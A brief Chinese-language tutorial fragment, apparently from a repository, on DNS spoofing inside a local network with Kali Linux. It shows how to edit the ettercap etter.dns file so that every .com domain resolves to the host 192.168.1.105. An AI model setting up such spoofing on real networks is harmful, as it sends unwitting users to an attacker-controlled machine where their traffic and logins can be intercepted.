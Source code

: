 # kali linux 内网DNS欺骗
## 1.配置ettercap的dns文件
### vim /etc/ettercap/etter.dns
- '#' redirect it to www.linux.org
- *.com A 192.168.1.105
- *.com/* A 192.168.1.105
